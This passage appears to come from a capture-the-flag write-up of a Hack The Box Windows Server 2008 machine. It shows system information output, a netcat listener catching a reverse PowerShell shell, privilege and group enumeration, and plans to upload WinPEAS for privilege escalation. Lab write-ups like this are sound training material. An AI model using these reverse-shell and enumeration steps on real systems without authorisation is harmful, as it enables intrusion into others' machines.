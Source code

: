 ```shell
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,506 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,529 MB
Virtual Memory: In Use:    566 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 110 Hotfix(s) Installed.
```
The machine is Server 2008, but it seems reasonably well-patched.  
Check user privileges:
```shell
─[us-dedivip-1]─[10.10.14.30]─[htb-jib1337@htb-0mgl0gm8pu]─[~/psh]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.84.178] 49159

PS C:\Users\security\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\security\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                        Attributes                                        
====================================== ================ ========================================== ==================================================
Everyone                               Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
ACCESS\TelnetClients                   Alias            S-1-5-21-953262931-566350628-63446256-1000 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                    Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                Mandatory group, Enabled by default, Enabled group
```
To upload WinPEAS I need to use a Powershell 2.0 method.
```shell
```